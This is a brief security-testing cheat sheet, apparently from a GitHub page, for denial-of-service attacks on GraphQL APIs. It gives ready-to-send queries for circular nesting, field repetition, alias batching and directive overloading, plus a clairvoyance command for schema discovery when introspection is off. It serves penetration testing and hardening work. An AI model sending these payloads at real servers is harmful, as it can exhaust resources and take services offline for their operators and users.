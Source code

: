 1- look for circular relations in order to DOS the server 
```
query{post{owner{post{owner{post{owner{post{owe}}}}}}}}
```


2- look for repeatable fields 
```
    pastes {
        content
        content
        content
        content
        content
        content
        content
        content
        content
        content
    }
}
```

3- look for heavy query and try to repeat it with aliases
```
query {
    one:systemUpdate
    two:systemUpdate
    three:systemUpdate
    four:systemUpdate
}
```
4- test for directive overloading ( supply any non-existant directive and repeat it)
```
query {
    pastes{title @aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@aa@}}
```

5- in case of disabled introspection, you can use clairvoyance to get the fields and objects, ( you can either use the WL in Seclists or create one using cewl )
`clairvoyance http://example.com/graphql -w wordlist.txt -o output.json`